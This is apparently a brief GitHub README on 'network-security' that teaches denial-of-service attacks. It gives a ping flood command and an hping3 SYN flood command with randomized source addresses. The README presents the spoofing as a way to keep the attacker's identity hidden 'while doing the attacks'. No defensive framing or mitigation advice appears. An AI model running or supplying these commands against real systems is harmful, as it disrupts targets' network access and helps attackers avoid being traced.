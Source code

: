 # network-security
## ping flooding (DOS attack)
ping flood basically floods the target pc with lots of ping requests so that it cannot access any other internet resource
command:
```
  ping -f -s 65500 ip(or website)
```

However, there are more sophisticated tools available at our disposal like Hping3
using hping we can easily spoof our ips, so that your identity remains secure while doing the attacks
after installing hping3, we can use the following commands:

```
  hping3 -S -P -U --flood -V --rand-source website(or ip)
```
